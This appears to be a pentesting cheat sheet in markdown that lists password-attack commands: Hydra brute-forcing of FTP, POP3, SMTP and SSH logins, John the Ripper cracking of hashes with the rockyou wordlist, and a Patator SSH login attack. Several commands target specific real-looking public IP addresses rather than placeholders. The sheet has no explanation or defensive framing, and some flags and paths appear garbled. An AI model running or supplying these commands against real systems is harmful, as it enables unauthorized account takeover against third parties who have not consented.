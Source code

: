 ## Bruteforce

### Hydra FTP
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f
192.168.X.XXX ftp -V
```

### Hydra POP3 Brute Force
```
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f
192.168.X.XXX pop3 -V
```

### Hydra SMTP Brute Force
```
hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
```

### Hydra SSH
```
hydra -V -f -t 4 -l test -P /root/wordlist ssh://168.90.14.162
hydra -V -f -t 4 -l test -P /usr/share/wfuzz/wordlist/general/spanish.txt ssh://82.223.205.237:3389
```

### JTR password cracking
```
john –wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### JTR forced descrypt cracking with wordlist
```
john –format=descrypt –wordlist
/usr/share/wordlists/rockyou.txt hash.txt
```

### JTR forced descrypt brute force cracking
```
john –format=descrypt hash –show
```

### Patator
```
patator ssh_login host=177.93.38.219 user=test password=FILE0 0=/usr/share/wfuzz/wordlist/general/spanish.txt -x ignore:mesg='Authentification failed'
```
